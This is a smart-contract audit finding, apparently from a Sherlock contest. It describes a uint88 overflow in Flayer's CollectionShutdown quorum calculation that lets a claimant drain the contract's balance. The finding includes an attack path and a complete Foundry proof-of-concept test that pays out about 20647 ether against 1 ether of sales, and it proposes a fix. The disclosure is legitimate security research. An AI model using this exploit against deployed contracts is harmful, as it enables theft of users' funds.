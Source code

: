 Raspy Raspberry Tapir

High

# Quorum overflow in `CollectionShutdown` leads to complete drain of contract's funds

### Summary

[CollectionShutdown.sol#150](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L150) and [CollectionShutdown.sol#L247](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L247) cast quorum votes to `uint88` as follows:

```solidity
uint totalSupply = params.collectionToken.totalSupply();
if (totalSupply > MAX_SHUTDOWN_TOKENS * 10 ** params.collectionToken.denomination()) revert TooManyItems();


// Set our quorum vote requirement
params.quorumVotes = uint88(totalSupply * SHUTDOWN_QUORUM_PERCENT / ONE_HUNDRED_PERCENT);
```

The problem with the above is that it may overflow:
- `collectionToken.denomination()` may max `9`
- `MAX_SHUTDOWN_TOKENS == 4`
- `SHUTDOWN_QUORUM_PERCENT / ONE_HUNDRED_PERCENT == 1/2`
- Collection tokens are minted in `Locker` [as follows](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L163):
  - `token.mint(_recipient, tokenIdsLength * 1 ether * 10 ** token.denomination());`

E.g. with `totalSupply == 0.6190 ether * 10**9`, we have that the check still passes, but:
- `totalSupply * SHUTDOWN_QUORUM_PERCENT / ONE_HUNDRED_PERCENT = 0.3095 ether * 10**9`
- `type(uint88).max ~= 0.309485 ether * 10**9`
- `uint88(0.3095 ether * 10**9) ~= 0.000015 ether * 10**9`

Upon collection shutdown, tokens are sold on Sudoswap, and the funds thus obtained are distributed among the claimants. The claimed amount is then _divided by `quorumVotes`_ [as follows](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L310):

```solidity
uint amount = params.availableClaim * claimableVotes / (params.quorumVotes * ONE_HUNDRED_PERCENT / SHUTDOWN_QUORUM_PERCENT);
```

Thus, when dividing by a much smaller `quorumVotes`, the claimant receives much more than they are eligible for: in the PoC it's `20647 ether` though only `1 ether` has been received from sales.

### Root Cause

[CollectionShutdown.sol#150](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L150) and [CollectionShutdown.sol#L247](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L247) downcast the quorum votes to `uint88`, which may overflow.

### Internal pre-conditions

1. The collection token denomination needs to be sufficiently large to cause overflow
2. The amount of shutdown votes needs to be sufficiently large to cause overflow.

### External pre-conditions

none

### Attack Path

1. A user creates a collection with denomination `9`
2. The user holding `0.6190 ether * 10**9` of the collection token (i.e. less than 1 NFT) starts collection shutdown.
    - At that point the quorum of votes overflows, and becomes much smaller
4. Collection shutdown is executed normally.
5. Tokens are sold on Sudoswap. 
     - In the PoC they are sold for `1 ether`.
7. User claims the balance. Due to the overflow, they receive much more than what their NFTs were worth.
     - In the PoC user receives `20647 ether` though only `1 ether` has been received from sales.

### Impact

The protocol suffers unbounded losses (the whole balance of `CollectionShutdown` contract can be drained.

### PoC

Drop this test to [CollectionShutdown.t.sol](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/test/utils/CollectionShutdown.t.sol#L51) and execute with `forge test --match-test test_QuorumOverflow`:

```solidity
function test_QuorumOverflow() public {
    locker.createCollection(address(erc721c), 'Test Collection', 'TEST', 9);

    // Initialize our collection, without inflating `totalSupply` of the {CollectionToken}
    locker.setInitialized(address(erc721c), true);

    // Set our collection token for ease for reference in tests
    collectionToken = locker.collectionToken(address(erc721c));

    // Approve our shutdown contract to use test suite's tokens
    collectionToken.approve(address(collectionShutdown), type(uint).max);

    // Give some initial balance to CollectionShutdown contract
    vm.deal(address(collectionShutdown), 30000 ether);
    
    vm.startPrank(address(locker));
    // Suppose address(1) holds 0.6190 ether
    // in a collection token with denomination 9
    collectionToken.mint(address(1), 0.6190 ether * 10**9);
    vm.stopPrank();

    // Start collection shutdown from address(1)
    vm.startPrank(address(1));
    collectionToken.approve(address(collectionShutdown), 0.6190 ether * 10**9);
    collectionShutdown.start(address(erc721c));
    vm.stopPrank();

    // Mint NFTs into our collection {Locker} and process the execution
    uint[] memory tokenIds = _mintTokensIntoCollection(erc721c, 3);
    collectionShutdown.execute(address(erc721c), tokenIds);

    // Mock the process of the Sudoswap pool liquidating the NFTs for ETH.
    vm.startPrank(SUDOSWAP_POOL);
    // Transfer the specified tokens away from the Sudoswap position to simulate a purchase
    for (uint i; i < tokenIds.length; ++i) {
        erc721c.transferFrom(SUDOSWAP_POOL, address(5), i);
    }
    // Ensure the sudoswap pool has enough ETH to send
    deal(SUDOSWAP_POOL, 1 ether);
    // Send ETH from the Sudoswap Pool into the {CollectionShutdown} contract
    (bool sent,) = payable(address(collectionShutdown)).call{value: 1 ether}('');
    require(sent, 'Failed to send {CollectionShutdown} contract');
    vm.stopPrank();

    // Get our start balances so that we can compare to closing balances from claim
    uint startBalanceAddress = payable(address(1)).balance;

    // address(1) now can claim
    collectionShutdown.claim(address(erc721c), payable(address(1)));

    // Due to quorum overflow, address(1) now holds ~ 20647 ether
    assertApproxEqRel(payable(address(1)).balance - startBalanceAddress, 20647 ether, 0.01 ether);
}
```

### Mitigation

Employ the appropriate type and cast for `quorumVotes`, e.g. `uint92`.